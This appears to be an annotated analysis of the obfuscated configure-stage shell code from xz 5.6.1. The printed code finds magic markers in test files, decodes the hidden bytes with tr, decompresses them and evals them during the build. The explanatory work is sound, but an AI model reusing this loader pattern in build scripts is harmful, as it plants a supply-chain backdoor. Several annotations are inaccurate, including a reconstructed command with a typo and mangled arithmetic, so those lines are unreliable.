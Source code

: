 ```sh
[ ! $(uname)="Linux" ] && exit 0
```
- Check if the OS is based on Linux
- But there is no whitespace around `=` so that this line do nothing.

```sh
eval $zrKcVq
```
- Not declared variable

---

#### if #1 - Running during configure in the tarball root directory
```sh
if test -f config.status; then
    eval $zrKcSS
    eval `grep ^LD=\'\/ config.status`
    eval `grep ^CC=\' config.status`
    eval `grep ^GCC=\' config.status`
    eval `grep ^srcdir=\' config.status`
    eval `grep ^build=\'x86_64 config.status`
    eval `grep ^enable_shared=\'yes\' config.status`
    eval `grep ^enable_static=\' config.status`
    eval `grep ^gl_path_map=\' config.status`
```
- Check if `config.status` exists
- If `config.status` exists, print the variables in command

```sh
    vs=`grep -broaF '~!:_ W' $srcdir/tests/files/ 2>/dev/null`
    if test "x$vs" != "x" > /dev/null 2>&1;then
        f1=`echo $vs | cut -d: -f1`
        if test "x$f1" != "x" > /dev/null 2>&1;then
            start=`expr $(echo $vs | cut -d: -f2) + 7`
            ve=`grep -broaF '|_!{ -' $srcdir/tests/files/ 2>/dev/null`
            if test "x$ve" != "x" > /dev/null 2>&1;then
                f2=`echo $ve | cut -d: -f1`
                if test "x$f2" != "x" > /dev/null 2>&1;then
                    [ ! "x$f2" = "x$f1" ] && exit 0
                    [ ! -f $f1 ] && exit 0
                    end=`expr $(echo $ve | cut -d: -f2) - $start`
                    eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`
                fi
            fi
        fi
    fi
```
```sh
cat $f1 | tail -c +$(echo $vs | cut -d: -f2) + 7 | haed -c +$(echo $ve | cut -d: -f2) - $start | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc
```
- Added in 5.6.1
- Find file that include string `~!:_ W` and `|_!{ -`
- (There is no file that include the magic strings)
- Check for `$f1` and `$f2` is identical and if `$f1` is exists

